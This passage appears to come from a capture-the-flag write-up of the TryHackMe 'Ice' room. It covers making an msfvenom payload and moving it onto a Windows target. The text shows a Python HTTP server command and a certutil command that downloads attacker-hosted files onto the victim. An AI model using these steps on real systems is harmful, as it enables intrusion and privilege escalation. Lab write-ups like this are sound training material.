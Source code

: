 ![CVE Details|540](images/thm-ice/csv-details-github.png)

Now we need to create a payload so that we run the payload using the exploit we can get a session with system privileges.

![Creating exploit using Msfvenom](images/thm-ice/msfvenom-payload-creation.png)

Now that we have our payload and exploit let's upload them onto the target machine. For this, on your machine, we can set up a Python HTTP Server and use certutil on Windows to download the files from the server

```
python3 -m http.server 1234

certutil -urlcache -f http://<server-ip-address>:<port>/<filename> <output-filename>
```

![Downloading File 1](images/thm-ice/downloading-file-1.png)

![Downloading File 2](images/thm-ice/downloading-file-2.png)

